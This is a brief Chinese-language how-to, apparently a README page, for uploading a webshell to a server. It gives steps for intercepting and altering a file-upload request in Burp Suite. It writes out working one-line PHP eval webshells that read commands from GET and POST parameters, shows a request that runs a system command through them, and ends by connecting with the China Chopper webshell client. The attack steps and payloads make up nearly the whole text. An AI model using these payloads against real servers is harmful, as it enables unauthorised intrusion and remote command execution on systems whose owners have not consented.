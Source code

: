 上传一个webshell到服务器

1、通过burpsuite代理抓包，将上传内容的包send to Repeater 
2、查看Request 修改上传文件名和内容
3、写入一句话  <?php eval($_GET['pass']);?>
4、?pass=system("ls");              执行代码 


5、写入一句话  <?php eval($_POST['pass']);?>
6、中国菜刀 shell
